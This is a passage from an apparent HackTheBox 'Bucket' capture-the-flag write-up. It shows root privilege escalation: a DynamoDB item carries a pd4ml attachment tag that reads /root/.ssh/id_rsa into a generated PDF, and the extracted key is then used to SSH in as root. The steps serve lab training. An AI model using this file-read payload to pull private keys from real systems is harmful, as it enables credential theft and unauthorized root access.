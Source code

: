 *NB: ****you can recover the flag using this method but also the `id_rs`* *to connect via SSH which I will show down here*

From you own machine, reate the table with the following command:

```php
aws dynamodb create-table --table-name alerts --attribute-definitions AttributeName=title,AttributeType=S --key-schema AttributeName=title,KeyType=HASH --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=5 --endpoint-url=http://s3.bucket.htb
```

Create an item with our payload

```php
aws dynamodb put-item --table-name alerts --item '{"title": {"S": "Ransomware"}, "data": {"S": "<pd4ml:attachment description=\"attached.txt\" icon=\"PushPin\">file:///root/.ssh/id_rsa</pd4ml:attachment>"}}' --endpoint-url=http://s3.bucket.htb
```

On the bucket machine create the POST request

```php
curl -X POST -d "action=get_alerts" http://127.0.0.1:8000/ -v
```

If it looks like it took some time before getting an answer, that means you have created the pdf file and you can copy it onto your machine:

```php
scp roy@bucket.htb:/var/www/bucket-app/files/result.pdf ~/Github/CTFstuff/HackTheBox/machines/Buckets/
```

download the file in the pdf (click on the icon):

![{{site.baseurl}}/assets/img/HackTheBox/Bucket/Screenshot_20201101_201642.png]({{site.baseurl}}/assets/img/HackTheBox/Bucket/Screenshot_20201101_201642.png)

change the permission and connect with ssh

```bash
chmod 600 id_rsa
ssh -i id_rsa root@bucket.htb
root@bucket:~# ls
backups  docker-compose.yml  files  restore.php  restore.sh  root.txt  snap  start.sh  sync.sh
root@bucket:~# cat root.txt
9fca4..................................202079ce3
```

WE GOT THE FLAG!!!!